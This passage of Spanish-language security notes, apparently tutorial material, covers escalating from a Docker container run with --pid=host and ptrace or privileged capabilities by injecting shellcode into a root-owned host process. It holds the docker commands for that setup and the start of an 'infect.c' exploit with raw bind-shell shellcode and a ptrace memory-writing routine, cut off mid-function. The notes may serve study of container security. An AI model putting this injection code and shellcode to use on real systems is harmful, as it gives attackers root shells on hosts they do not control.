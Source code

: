 
* Forma 2
```bash 
❯ docker run --rm -dit --pid=host --name ubuntuServer ubuntu  # Nos crearemos un contenedor de una imagen antes descargada, pid = Hacer que los procesos de la maquina host los podamos ver y podamos interactuar con ellos dentro del contenedor 
❯ docker exec -it ubuntuServer bash        # Ingresamos al contenedor 'ubuntuServer' por medio de una bash como root
	❯ ps -faux                            # Miramos los procesos del contenedor y descubrimos que hay uno proceso en el cual tenemos un servicio y lo ejecuta root, nosotros podemos inyectar 'shellcode' a bajo proceso para poder hacer la escalada
```

* [Infecting-Running-Processes](https://0x00sec.org/t/linux-infecting-running-processes/1097)
* [Github-Infect-Running-Process](https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c)
* [CVE-41128](https://www.exploit-db.com/exploits/41128)

Usaremos el código de la pagina anterior para poder hacer el ataque
```bash 
# Cabe mencionar que debemos de tener la capabilitie de Ptrace activada, de lo contrario la descargamos y volvemos as desplegar el contenedor 
❯ docker run --rm -dit --pid=host --cap-add=SYS_PTRACE --name ubuntuServer ubuntu  # Nos crearemos un contenedor
❯ docker run --rm -dit --pid=host --privileged --name ubuntuServer ubuntu  # Nos crearemos un contenedor, con permiso a todas las capabilities

# Con ese servicio abierto nos montaremos una BindShell
```

Creamos el archivo llamado 'infect.c' que ejecutaremos en el contenedor, el cual se aprovechara del proceso que esta corriendo root, el cual le agregaremos parte del CVE 41128
```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = 
  "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
```